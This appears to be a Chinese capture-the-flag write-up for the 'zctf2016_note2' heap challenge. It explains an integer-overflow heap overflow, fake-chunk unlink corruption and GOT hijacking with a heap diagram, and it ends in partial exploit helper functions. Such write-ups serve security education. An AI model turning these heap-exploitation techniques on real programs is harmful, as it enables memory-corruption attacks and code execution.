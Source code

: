 ### zctf2016_note2
添加 note 时，存在整数溢出漏洞，导致添加大小为 0 的 note，可以输入的长度为无符号的 `-1`，可以认为没有限制，但是 `malloc` 依旧会分配 `0x20` 字节。利用这个堆溢出，我们先分配三个 chunk：


```
| ...               |               |
 -------------------                |
| 'a'*8             |               |
 ------------------- <- ptr[2]    chunk2
| size=0x91         |               |
 -------------------                |
| prev_size         |               |
 ------------------- <---------------
|                   |               |
 -------------------                |
| 'a'*8             |               |
 ------------------- <- ptr[1]    chunk1
| size=0x20         |               |
 -------------------                |
| prev_size         |               |
 ------------------- <---------------
|                   | 0x18          |
 -------------------                |
| bp_prev_size=0x60 |               |
 -------------------                |
| 'a'*0x40          | 0x40          |
 -------------------                |
| fd     | bk       | 0x10          |
 -------------------              chunk0
| fake_size=0x61    |               |
 -------------------                |
| fake_prev_size=0  |               |
 ------------------- <- ptr[0]      |
| size=0x91         |               |
 -------------------                |
| prev_size         |               |
 ------------------- <---------------
```


我们在 0x80 的 `chunk0` 内伪造了 0x61 的 chunk，并通过 `bp_prev_size=0x60` 确保能通过检查。随后分配大小为 `0` 的 `chunk1`（实际大小为 0x20），由于整数溢出这里可以输入无限长度的内容，最后分配 0x80 的 `chunk2` 用来引起 `unlink`。

接下来释放 1 再拿回来，就可以溢出到 `chunk2`，修改其 `prev_size` 和 `chunk_size`，前者修改为 `0x20+0x80=0xa0`，后者置 `PREV_IN_USE` 位为 `0`。这样再释放 2 就可以 `unlink` 掉我们的 fake chunk 了。此时 `ptr` 指向 `ptr-0x18`，填充 0x18 字节后即可修改 `ptr[0]`，之后就是常规 GOT 劫持了。


```python
def add(len,content='a'*8):
    sla('>>','1')
    sla('128)',str(len))
    sla('content:',content)

def show(index):
    sla('>>','2')
    sla('note:',str(index))

def edit(index,choice,content):
    sla('>>','3')
    sla('note:',str(index))
    sla(']',str(choice))
    sl(content)

def delete(index):
    sla('>>','4')
```